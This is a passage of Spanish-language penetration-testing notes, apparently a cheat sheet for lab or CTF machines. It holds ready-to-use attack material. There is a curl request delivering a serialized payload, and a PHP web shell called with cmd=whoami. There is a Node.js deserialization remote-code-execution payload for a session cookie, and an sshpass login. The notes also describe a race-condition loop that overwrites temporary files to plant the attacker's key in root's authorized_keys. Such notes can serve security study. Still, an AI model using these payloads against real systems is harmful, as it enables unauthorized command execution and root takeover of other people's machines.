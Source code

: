 ```shell
curl -s -X GET -G "http://<IP>/test.php" --data-urlencode 'example=<TEXT_SERIALIZE>'; echo
```

Esto lo que hara sera ejecutar lo que ya dije anteriormente desde la herramienta `curl`...

Ahora si nos vamos a la misma `URL` pero en vez de pone `test.php` ponemos nuestro archivo creado llamado `payload.php` y poniendo el parametro creado por ese archivo `cmd=` y un comando deberia de funcionar...

```
URL = http://<IP>/payload.php?cmd=whoami
```

URL = https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

Esto se puede aprovechar mirando el archivo `server.js` si estuviera disponible, una vez sabiendo esas informacion se puede aprovechar un `bug` con la `URL` anterior en la `Cookie de sesion` para ejecutar comandos de forma libre, ya que si se deserializa, se puede hacer lo siguiente...

```json
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Ajustandolo a tus necesidades, eso se podria `URL Encodear` y ponerlo en la `Cookie` para que cuando recargues la pagina se ejecute un comando en el espacio de `ls /`...

### sshpass

Si queremos conectarnos por `ssh` directamente proporcionando la contraseña automaticamente, seria de la siguiente forma...

```shell
sshpass -p '<PASSWORD>' ssh <USERNAME>@<IP>
```

### Capturar peticion de un `.sh` para inyectar codigo nuestro \[Reconditioning the Abuser]

Si por ejemplo tenemos un `.sh` que podemos ejecutar con privilegios de super usuario o no, da igual, pero si tenemos un ejecutable que genera de forma temporal un archivo con nombres temporales aleatorios, cunado lo ejecutemos podemos por otro lado estar de forma bruta generando muchos archivos temporales con nombres aleatorios y cuando coincidan de cuando yo lo ejecute que se escriba lo que yo quiero en vez de de lo que esta programado el programa, haciendo asi una captura de la peticion de ese ejecutable y escribiendo lo que yo quiera...

> EJEMPLO

Imaginemos que se esta escribiendo una `id_rsa.pub` de `root` al archivo `authorized_keys` por lo que si capturamos la peticion cuando yo ejecute ese `.sh` y escribimos nuestra `id_rsa.pub` de nuestro `host` en ese archivo de `root` podremos conectarnos por `ssh` como `root` con nuestra `id_rsa` privada...

```shell
while true; do for filename in /tmp/ssh-*; do echo '<CONTENT_YOUR_ID_RSA.PUB>' > $filename; done; done
```
